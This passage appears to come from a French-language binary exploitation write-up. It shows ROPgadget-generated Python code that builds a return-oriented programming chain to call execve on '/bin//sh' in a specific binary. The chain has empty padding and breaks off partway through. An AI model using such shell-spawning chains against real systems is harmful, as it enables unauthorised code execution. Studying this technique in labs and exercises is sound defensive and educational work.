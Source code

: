 <span style="color:red">Output obtenu à la suite de la commande :</span>

```
[...]
#!/usr/bin/env python3
# execve generated by ROPgadget

from struct import pack

# Padding goes here
p = b''

p += pack('<Q', 0x000000000040779e) # pop rsi ; ret
p += pack('<Q', 0x00000000004b4000) # @ .data
p += pack('<Q', 0x000000000044b203) # pop rax ; ret
p += b'/bin//sh'
p += pack('<Q', 0x000000000044ce81) # mov qword ptr [rsi], rax ; ret
p += pack('<Q', 0x000000000040779e) # pop rsi ; ret
p += pack('<Q', 0x00000000004b4008) # @ .data + 8
p += pack('<Q', 0x000000000043ad15) # xor rax, rax ; ret
p += pack('<Q', 0x000000000044ce81) # mov qword ptr [rsi], rax ; ret
p += pack('<Q', 0x000000000040178e) # pop rdi ; ret
p += pack('<Q', 0x00000000004b4000) # @ .data
p += pack('<Q', 0x000000000040779e) # pop rsi ; ret
p += pack('<Q', 0x00000000004b4008) # @ .data + 8
p += pack('<Q', 0x00000000004016ab) # pop rdx ; ret
p += pack('<Q', 0x00000000004b4008) # @ .data + 8
p += pack('<Q', 0x000000000043ad15) # xor rax, rax ; ret
p += pack('<Q', 0x000000000046c970) # add rax, 1 ; ret
p += pack('<Q', 0x000000000046c970) # add rax, 1 ; ret
p += pack('<Q', 0x000000000046c970) # add rax, 1 ; ret
p += pack('<Q', 0x000000000046c970) # add rax, 1 ; ret
p += pack('<Q', 0x000000000046c970) # add rax, 1 ; ret
p += pack('<Q', 0x000000000046c970) # add rax, 1 ; ret
p += pack('<Q', 0x000000000046c970) # add rax, 1 ; ret
p += pack('<Q', 0x000000000046c970) # add rax, 1 ; ret
p += pack('<Q', 0x000000000046c970) # add rax, 1 ; ret
p += pack('<Q', 0x000000000046c970) # add rax, 1 ; ret
p += pack('<Q', 0x000000000046c970) # add rax, 1 ; ret
p += pack('<Q', 0x000000000046c970) # add rax, 1 ; ret
p += pack('<Q', 0x000000000046c970) # add rax, 1 ; ret
p += pack('<Q', 0x000000000046c970) # add rax, 1 ; ret
p += pack('<Q', 0x000000000046c970) # add rax, 1 ; ret
p += pack('<Q', 0x000000000046c970) # add rax, 1 ; ret
p += pack('<Q', 0x000000000046c970) # add rax, 1 ; ret
p += pack('<Q', 0x000000000046c970) # add rax, 1 ; ret
p += pack('<Q', 0x000000000046c970) # add rax, 1 ; ret
p += pack('<Q', 0x000000000046c970) # add rax, 1 ; ret
p += pack('<Q', 0x000000000046c970) # add rax, 1 ; ret
p += pack('<Q', 0x000000000046c970) # add rax, 1 ; ret
p += pack('<Q', 0x000000000046c970) # add rax, 1 ; ret
p += pack('<Q', 0x000000000046c970) # add rax, 1 ; ret
p += pack('<Q', 0x000000000046c970) # add rax, 1 ; ret
p += pack('<Q', 0x000000000046c970) # add rax, 1 ; ret
p += pack('<Q', 0x000000000046c970) # add rax, 1 ; ret
p += pack('<Q', 0x000000000046c970) # add rax, 1 ; ret
p += pack('<Q', 0x000000000046c970) # add rax, 1 ; ret
p += pack('<Q', 0x000000000046c970) # add rax, 1 ; ret
p += pack('<Q', 0x000000000046c970) # add rax, 1 ; ret
p += pack('<Q', 0x000000000046c970) # add rax, 1 ; ret
p += pack('<Q', 0x000000000046c970) # add rax, 1 ; ret
p += pack('<Q', 0x000000000046c970) # add rax, 1 ; ret
p += pack('<Q', 0x000000000046c970) # add rax, 1 ; ret
p += pack('<Q', 0x000000000046c970) # add rax, 1 ; ret
```